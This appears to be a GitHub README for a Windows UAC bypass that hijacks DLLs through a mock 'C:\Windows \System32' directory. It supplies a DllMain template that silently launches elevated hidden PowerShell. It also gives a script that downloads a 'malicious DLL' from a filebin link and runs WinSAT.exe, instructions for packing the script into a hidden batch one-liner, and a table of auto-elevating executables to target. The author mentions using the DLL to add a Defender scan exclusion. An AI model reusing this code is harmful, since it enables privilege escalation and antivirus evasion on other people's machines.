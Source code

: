 # Powershell UAC bypass
Originally discordvered by Daniel Gebert

---

<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
        <li>
      <a href="#explanations">Explanations</a>
          <ul>
        <li><a href="#what-is-uac">What is UAC?</a></li>
        <li><a href="#dll-hijacking">DLL Hijacking</a></li>
        <li><a href="#mock-directories">Mock Directories</a></li>
    </ul>
    </li>
    <li><a href="#auto-elavate-applications">Auto elavate applications</a></li>
    
  </ol>
</details>

---


# Deployment

First edit the file to download your malicous DLL from [Filebin](https://filebin.net/)\
To easiliy create said DLL  - I would modify [This template](https://github.com/zeffy/prxdll_templates/tree/master/prxdll_version) with the code below

dllmain.c
```c++
#include "pch.h"
#include "prxdll.h"
#include "windows.h"
BOOL APIENTRY DllMain(
	const HINSTANCE instance,
	const DWORD reason,
	const PVOID reserved)
{
	switch (reason) {
	case DLL_PROCESS_ATTACH:
		WinExec("powershell -NoProfile -ExecutionPolicy bypass -windowstyle hidden -Command \"Start-Process -verb runas powershell\" \"'-NoProfile -windowstyle hidden -ExecutionPolicy bypass -Command YOURPOWERSHELLCOMMANDHERE\" '\"", 1);
		DisableThreadLibraryCalls(instance);
		return prx_attach(instance);
	case DLL_PROCESS_DETACH:
		prx_detach(reserved);
		break;
	}
	return TRUE;
}
```
This should execute some powershell code as admin.\
Next we need to find some autoelavate applications. I prefer to use winSAT.exe as there is no visual GUI when ran. Heres some other <a href="#auto-elavate-applications">Auto elavate applications</a>.

Okay so the powershell source code
```powershell
New-Item '\\?\C:\Windows \System32' -ItemType Directory
Set-Location -Path '\\?\C:\Windows \System32'
copy C:\Windows\System32\WinSAT.exe "C:\windows \System32\winSAT.exe"
Invoke-WebRequest -Uri 'https://filebin.net/bajzrgruy6h83o4n/version.dll' -OutFile 'version.dll'
Start-Process -Filepath 'C:\windows \System32\winSAT.exe'
Start-Sleep -s 1
Remove-Item '\\?\C:\Windows \' -Force -Recurse
```
First modification:\
Build your DLL using visual studio code and upload it to filebin. My DLL adds a windows defender preference to not scan the TEMP directory\
Replace the Invoke-WebRequest Uri with your link and replace the copy argument with the location of your application.\
Now for the final step - Replace every new line with a semicolon and convert it into a batch script
```cmd
powershell.exe -windowstyle hidden -NoProfile -ExecutionPolicy bypass -Command "Yourcodehere"
```
And boom! You can execute that system command and program a UAC bypass payload in most high level languages!

---
<br>

## Explanations

## What Is UAC
Microsoft introduced UAC (User Account Control) with Windows Vista and Windows Server 2008.\
In short terms - UAC aims to improve the security of Microsoft Windows by giving programs standard user privileges until an administrator authorizes an increase or elevation of permissions.  [Wikipedia](https://en.wikipedia.org/wiki/User_Account_Control#Features)

<br>

## DLL Hijacking
DLL Hijacking means a program will load and execute a malicious DLL contained in the same folder as a data file opened by these programs.
[Wikipedia](https://en.wikipedia.org/wiki/Dynamic-link_library#DLL_hijacking)

<br>

## Mock directories
Heres a description I stole from [daniels blog](http://daniels-it-blog.blogspot.com/2020/07/uac-bypass-via-dll-hijacking-and-mock.html)

Mock directories are folders with a trailing space. For example \
```
C:\Windows \System32
```


See the space " " between "Windows" and "\System32".\


##  Auto elavate applications
<table bgcolor="" cellpadding="2" cellspacing="0" style="background: rgb(255, 255, 255); width: 643px;">
	<colgroup><col width="341">
	<col width="75">
	<col width="213">
	</colgroup><tbody><tr bgcolor="" style="background: rgb(229, 229, 229);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<strong><font color="#000000"><font face="">Executable</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<strong><font color="#000000"><font face="">DLL</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<strong><font color="#000000"><font face="">Comment</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ComputerDefaults.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods.</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">EASPolicyManagerBrokerHost.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">fodhelper.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			settings and can be used to bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">FXSUNATD.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">msconfig.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">OptionalFeatures.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Optional Features</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sdclt.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods; opens Windows Backup</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe
			is not present by default</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">systemreset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sysprep.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Creates
			sub folder.&nbsp;</font></font><strong><font color="#000000"><font face="">Sysprep
			process has to be killed directly after UAC bypass, otherwise
			sysprep is executed!</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">SystemSettingsAdminFlows.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WinSAT.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WSReset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Store</font></font></p>
		</td>
	</tr>
</tbody></table>
